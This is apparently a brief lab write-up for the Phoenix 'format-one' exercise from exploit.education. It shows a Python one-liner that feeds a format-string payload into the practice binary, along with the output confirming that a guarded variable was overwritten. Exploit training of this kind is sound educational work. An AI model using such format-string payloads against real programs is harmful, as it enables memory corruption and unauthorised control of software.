 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Format One:

## Exploit:
0x45764f6c
```bash
root@phoenix-amd64:/opt/phoenix/amd64# python -c "print '%32x\x6c\x4f\x76\x45'" | ./format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```